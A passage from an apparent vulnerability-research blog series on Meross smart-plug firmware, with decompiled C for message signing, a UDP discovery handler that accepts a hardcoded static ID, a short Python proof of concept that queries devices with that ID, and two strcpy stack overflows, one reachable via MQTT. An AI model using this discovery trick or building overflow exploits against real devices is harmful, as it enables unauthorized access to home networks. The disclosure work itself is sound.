  bool success;
  byte digest [16];
  char timestamp_str [32], digest_hex [36];
  mbedtls_md_context md_ctx;

  // (1) Check signature only if device has been configured
  if (mrs_cfg_get_state() == Initialized) {
    msg_id = json_GetItemString(header, "messageId");
    timestamp = json_GetItemInt(header, "timestamp");
    namespace = json_GetItemString(header,"namespace";
    // (2) verify that all required items are present
    if (((namespace != (char *)0x0) && (msg_id != (char *)0x0)) && (-1 < timestamp)) {
      __wrap_memset(timestamp_str,(void *)0x0,0x20);
      __wrap_snprintf(timestamp_str,0x20,"%d",timestamp);
      // (3) fetch configured shared key to build the signature
      shared_key = (char *)mrs_cfg_get_key();
      in_sign = json_GetItemString(header,"sign");
      if (in_sign != (char *)0x0) {
        mbedtls_md5_starts(&md_ctx);
        // (4) Signature: msg_id + shared_key + timestamp
        mbedtls_md5_update(&md_ctx,msg_id, __wrap_strlen(msg_id));
        mbedtls_md5_update(&md_ctx,shared_key, __wrap_strlen(shared_key));
        mbedtls_md5_update(&md_ctx,timestamp_str, __wrap_strlen(timestamp_str));
        mbedtls_md5_finish(&md_ctx,digest);
        __wrap_memset(digest_hex,(void *)0x0,0x21);
        idx = 0;
        /* -- snip: convert digest to hex */
        // (5) case insensitive comparison here
        return lwip_strnicmp(digest_hex,in_sign,0x20) == 0;
      }
    }
    success = false;
  } else {
    success = true;
  }
  return success;
}
```
{: file="mrs_protocol_verify" }

Finally\*, I can tell with confidence that there is no backdoor in place when communicating
with the device using the local/cloud protocol (\*I traced the function calls back to the
handler callback and there was no sign of any bypass). However, upon further investigation,
I found something else...

## Extra: Discovery protocol: "MRS HI"

There is a custom task named "mrs_hi", which seems to be a discovery protocol invented by Meross. Seems to be irrelevant at first, but later when discussing findings and their
requirements, it will be relevant again (you have to trust me on this one).

```c

uint mrs_hi_init_task(void)
{
  if (mrs_hi_task == (TaskHandle_t)0x0) {
    xTaskCreate((TaskFunction_t)mrs_hi_proc,"mrs_hi",0x200,(void *)0x0,3,&mrs_hi_task);
  /* .. */
```

It can be used to discover devices in the local network. Since requests are sent to the broadcast address, discovery is limited to the local network segment.
The implementation within the firmware is pretty straitforward: a UDP
socket is created and used to receive data from broadcast on port `9988`.

```c
void mrs_hi_proc(void *pvParameters)
{
  // (1) Initialize global socket instance: UDP/IPv4
  mrs_hi_socket = lwip_socket(2,2,0x11);
  /* ... */
  mrs_hi_sockaddr.sa.sa_family = '\x02';
  mrs_hi_sockaddr.sin.sin_port = lwip_htons(9988); // (2) bind to port 9988
  mrs_hi_sockaddr.sin.sin_addr.s_addr = (in_addr)lwip_htonl(0);
  if (lwip_bind(mrs_hi_socket,&mrs_hi_sockaddr.sa,0x10) < 0) goto exit;
  /* ... */
  do {
    mrs_hi_from_addr_len = 0x10;
    recv_buf = 0;
    // (3) receive packet
  } while (lwip_recvfrom(mrs_hi_socket,&recv_buf,0x7f,0,&mrs_hi_from_addr.sa, &mrs_hi_from_addr_len) < 0);
  /* ... */
  package = cJSON_Parse(&recv_buf);
  if (package == (cJSON *)0x0) {
    pcVar3 = "MRS HI | json format error\n";
    goto exit;
  }
  // (4) check received items
  id = cJSON_GetItemString(package,"id");
  devName = cJSON_GetItemString(package,"devName");
  if ((id != (char *)0x0) && (devName != (char *)0x0)) {
    __wrap_memset(userId,0,0x40);
    mrs_cfg_get_user_id(&userId);
    // (5) Check whether to respond to the discovery request
    if ((userId[0] == '\0') ||
        (lwip_strnicmp("49f33d8a2de2f2089ccf45ba8cdd4440",id,0x20) == 0))
    {
      send_response = true;
    }
    /* send_response= (userId equals id) */
}
```

You might be wondering about that static string inside the C function `49f33d8a2de2f2089ccf45ba8cdd4440`. The handler is written to respond to
any query when the local userId matches the Id in the package (alongside a hash check with the shared key) *OR* when the static string is used. To me, this looks more like development code being in production rather than a backdoor. Meross response:

> [Meross]\: "[...], the MRS Hi mechanism operates within the local network. To exploit this mechanism, one would need to breach the user's local network to establish communication."
>
> -- That is correct, but it also means Meross won't be changing this in the near future.
{: .prompt-info }

The PoC is quite simple:
```python
MRS_HI_BCAST = "255.255.255.255"
MRS_HI_SEND_PORT = 9988
MRS_HI_RECV_PORT = 9989
MRS_HI_DEFAULT_ID = "49f33d8a2de2f2089ccf45ba8cdd4440"

# request pydantic schema
class HIRequest(BaseModel):
    id: str
    devName: str = "*"

# create a socket and send the message
server = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server.settimeout(3)
server.bind(("", MRS_HI_RECV_PORT))

query = HIRequest(id=MRS_HI_DEFAULT_ID).model_dump_json()
_ = server.sendto(query.encode(), (host or MRS_HI_BCAST, MRS_HI_SEND_PORT))
while True:
    data, addr = server.recvfrom(1024)
```

The full script and CLI is at [meross-scripts/discover.py](https://github.com/MatrixEditor/meross-scripts/blob/master/libmeross/commands/discover.py)

---

## Stack-based buffer overflow 2x

Using a quick scan of XREFs to `strcpy` I found two places where user input can reach the copy function. One in the SDK and one in Meross' code:

### 1. fATWS

The first occurs when interacting with the serial debug shell and issuing the `ATWS` command. Interestingly, I was able to see the vulnerable code inside the firmware binary, but not in the public SDK repository. So I searched with git blame when this file was changed the last time, and...

Commit `b63a8bcdb44dc172b820df5747ab96278f5bf9d8` fixed the vulnerability ages ago, meaning Meross is using an outdated version of the SDK with possibly more unpatched vulnerabilities.
```
update sdk to sdk-ameba-v7.1d(41545) + 7.1d_critical_patch_full_210825_5d3c4d33_v(11)
```
{: file="Commit message" }
```diff
void fATWS(void *arg) {
  char buf[32] = {0};
  /* ... */
  printf("[ATWS]: _AT_WLAN_SCAN_\n\r");
+ if(rtw_join_status==JOIN_CONNECTING){
+ #if ATCMD_VER == ATVER_2
+   error_no = 6;
+ #endif
+   goto exit;
+ }
  if(arg){
+   strncpy(buf, arg, sizeof(buf));
-   strcpy(buf, arg);
    argc = parse_param(buf, argv);
```
{: file="Commit #b63a8bcdb44dc172b820df5747ab96278f5bf9d8" }

I took the example SDK application with debug strings and compared it to the firmware file mentioned throughout this post and the difference should be quite clear:

{: .w-90 .rounded-10 w='1220' h='470' .shadow .img-border }

However, since this *"vulnerability"* (rather more a finding) is already patched upstream and you need active serial debug access in order to exploit it, it does not offer much of an attack vector.

### 2. mrs_iot_mqtt_topic_handle

The much more interesting XREF appears in the MQTT package handler routine. As the name suggests, it is fired whenever the device receives a message from the MQTT broker, meaning it can be triggered from the cloud (?!? really?).

```c
void mrs_iot_mqtt_topic_handle(MessageData *data)
{
  cJSON *package;
  cJSON *header;
  char *from;
  MQTTMessage *message;
  cJSON *response;
  char from_buf [64]; // (1) buffer initialized with 64 bytes

  /* ... */
  __wrap_printf("\n\r[%s] <<<<<<<<<<[cloud]==========","MRS-IOT");
  fflush((FILE *)&stdout);
  package = cJSON_Parse(message->payload);
  if (package != (cJSON *)0x0) {
    if (verify_package_items(package) == 0) {
      cJSON_Delete(package);
      goto exit;
    }
    // (2) buffer is fille dwith 0's
    __wrap_memset(from_buf,0,64);
    header = cJSON_GetObjectItem(package,"header");
    from = cJSON_GetItemString(header,"from");
    // (3) input topic string is copied into the buffer without
    //     boounds checking.
    __wrap_strcpy(from_buf,from);
    mrs_protocol_package_dump("request",package);
    mrs_protocol_handle(package,&response);
    cJSON_Delete(package);
    mrs_protocol_package_dump("response",response);
    /* ... */
```

This is a classic buffer overflow and thankfully Meross acknowledged that:

> [Meross]\: "In future firmware, we will adopt the strncpy method to address this problem."
{: .prompt-info }

And luckily for all of us, they fixed this issue immediately within the next firmware release. So if you haven't updated your device since March 2026 you can get owned remotely!

---

[^ft_cjson_fn]: [cJSON.h](https://github.com/DaveGamble/cJSON/blob/master/cJSON.h)
[^ft_az2_romsym]: [romsym_is.so](https://github.com/Ameba-AIoT/ameba-rtos-z2/blob/778a36a48daacdfd67389bd739fc6e8f6d9f475a/component/soc/realtek/8710c/misc/bsp/ROM/romsym_is.so)
[^ft_dtypes]: It is also possible (and I really recommend it) to use the example application
              binary, because it stores all its debug symbols. Therefore, we can simply extract
              all data types from the example app instead of parsing the C source code.


That was a lot I know and we are only half way through this series. There still is much to uncover in the next post.

> Here you can move to the next part of this series [Part V: AmebaZII](../meross-part-5).